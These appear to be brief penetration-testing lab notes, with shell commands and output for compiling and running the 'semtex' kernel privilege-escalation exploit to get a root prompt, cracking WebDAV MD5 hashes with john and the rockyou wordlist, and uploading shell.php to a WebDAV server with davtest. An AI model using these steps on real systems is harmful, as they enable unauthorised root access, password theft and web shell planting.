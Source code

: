 # notes

## old centos
bash-4.1$ /usr/bin/gcc -O2 semtex.c -o semtex  
/usr/bin/gcc -O2 semtex.c -o semtex  
bash-4.1$ chmod +x semtex  
chmod +x semtex  
bash-4.1$ ./semtex  
./semtex  
2.6.37-3.x x86_64  
sd@fucksheep.org 2010  
-sh-4.1#  

## awk
awk '{print "admin:XAMPP with WebDAV:" $0}' /usr/share/wordlists/rockyou.txt | john hashes.txt --format=raw-md5 --pipe  

## john
awk '{print "admin:XAMPP with WebDAV:" $0}' /usr/share/wordlists/rockyou.txt | john hashes.txt --format=raw-md5 --pipe  

## webdav
davtest -url http://10.13.1.146/webdav -auth admin:s3cr3t -uploadfile shell.php -uploadloc shell.php  
